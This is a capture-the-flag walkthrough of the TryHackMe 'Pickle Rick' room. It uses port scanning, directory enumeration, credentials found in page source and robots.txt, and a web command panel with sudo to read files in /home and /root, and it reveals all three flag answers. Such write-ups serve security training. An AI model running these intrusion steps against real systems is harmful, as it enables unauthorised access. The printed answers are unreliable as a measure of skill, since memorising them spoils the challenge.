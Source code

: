 # Pickle Rick

<div align="left">

<figure><img src="../.gitbook/assets/BkKtAkO.png" alt="" width="375"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Pickle Rick](https://tryhackme.com/room/picklerick)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.150.53`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.150.53

You can also access the web application using the following link: [https://10-10-150-53.p.thmlabs.com](https://10-10-150-53.p.thmlabs.com/) (this will update when the machine has fully started)

### Task 2 - Reconnaissance

```bash
su
echo "10.10.150.53 pickle_rick.thm" >> /etc/hosts

mkdir thm/pickle_rick.thm
cd thm/pickle_rick.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 pickle_rick.thm
```

```bash
PING pickle_rick.thm (10.10.150.53) 56(84) bytes of data.
64 bytes from pickle_rick.thm (10.10.150.53): icmp_seq=1 ttl=63 time=72.8 ms
64 bytes from pickle_rick.thm (10.10.150.53): icmp_seq=2 ttl=63 time=80.6 ms
64 bytes from pickle_rick.thm (10.10.150.53): icmp_seq=3 ttl=63 time=61.8 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 15-26-31.png" alt=""><figcaption></figcaption></figure>

Seeing html source page we found this precious info about username

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 15-33-26.png" alt=""><figcaption><p>Username: R1ckRul3s</p></figcaption></figure>

#### 2.1 - What is the first ingredient that Rick needs? 

Try to scan open ports is always a good solution:

```bash
nmap -p- --open -sS -n -Pn pickle_rick.thm -oG open_ports
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-17 14:30 BST
Nmap scan report for pickle_rick.thm (10.10.150.53)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:E1:EC:48:00:3F (Unknown)
```

```bash
nmap -p22,80 -sS -n -Pn -sV -sC 10.10.150.53
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-17 14:30 BST
Nmap scan report for pickle_rick.thm (10.10.150.53)
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d0:cf:de:e0:28:b0:c4:60:97:9f:9d:50:2e:35:4c:bd (RSA)
|   256 24:c9:a0:ef:86:7e:1b:78:f8:d4:59:87:ce:cd:61:68 (ECDSA)
|_  256 c9:dc:d4:4d:b0:ec:16:7d:d6:97:ed:43:3b:6d:a2:80 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E1:EC:48:00:3F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We know username and IP and we can try to access with SSH port

```bash
ssh R1ckRul3s@10.10.150.53
```

```bash
The authenticity of host '10.10.150.53 (10.10.150.53)' can't be established.
ECDSA key fingerprint is SHA256:OFFPjHbvGX9Hd++AM6ynQflPu+GRjTFQluD10V6Fg1A.
Are you sure you want to continue connecting (yes/no)? yes
PWarning: Permanently added '10.10.150.53' (ECDSA) to the list of known hosts.
R1ckRul3s@10.10.150.53: Permission denied (publickey).
```

Nothing to do: Permission denied!

We can try to explore potential directory of website using gobuster

```bash
gobuster dir -u 10.10.150.53 -w /usr/share/wordlists/dirb/common.txt
```

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.150.53
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/06/17 15:11:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2023/06/17 15:11:26 Finished
===============================================================
```

We visit /robots.txt and we found this info (maybe password)

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 15-48-26.png" alt=""><figcaption><p>/robots.txt</p></figcaption></figure>

{% hint style="info" %}
Wubbalubbadubdub
{% endhint %}

Since we didn't find any login pages, let's try using nmap's http-enum script

```bash
nmap -p80 --script http-enum 10.10.150.53
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-17 15:18 BST
Nmap scan report for ip-10-10-150-53.eu-west-1.compute.internal (10.10.150.53)
Host is up (0.00015s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
MAC Address: 02:E1:EC:48:00:3F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds
```

Good news, we found login.php page

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 16-25-53.png" alt=""><figcaption></figcaption></figure>

Inserting user and psw found into index.html source code: R1ckRul3s and robots.txt: Wubbalubbadubdub, we give access!

Now, we have a command panel, where we can launch our commands.

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 16-30-02.png" alt=""><figcaption></figcaption></figure>

Using whoami we check that we're www-data user, with the ls command we explore the current directory where we find the first flag

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 16-31-58.png" alt=""><figcaption></figcaption></figure>

Cat command doesn't work, for this reason we use "less" command to read flag

<details>

<summary>🚩 Flag 1 (Sup3rS3cretPickl3Ingred.txt)</summary>

mr. meeseek hair

</details>

#### 2.2 - What is the second ingredient in Rick’s potion?

Reading clue.txt file we found another important info

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 16-43-07.png" alt=""><figcaption></figcaption></figure>

Exploring file system we found the 2nd ingredient

```bash
ls -ah ../../../home/rick
```

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 16-48-26.png" alt=""><figcaption><p>less ../../../home/rick/second ingredients</p></figcaption></figure>

<details>

<summary>🚩 Flag 2 (second ingredients)</summary>

1 jerry tear

</details>

#### 2.3 - What is the last and final ingredient? 

Usually the last flag is in the protected/root folder, we try to find it

```bash
sudo ls -ah ../../../root/3rd.txt
```

<figure><img src="../.gitbook/assets/Schermata del 2023-06-17 17-03-25.png" alt=""><figcaption><p>sudo less ../../../root/3rd.txt</p></figcaption></figure>

<details>

<summary>🚩 Flag 3 (3rd.txt)</summary>

fleeb juice

</details>

\
\


\
\
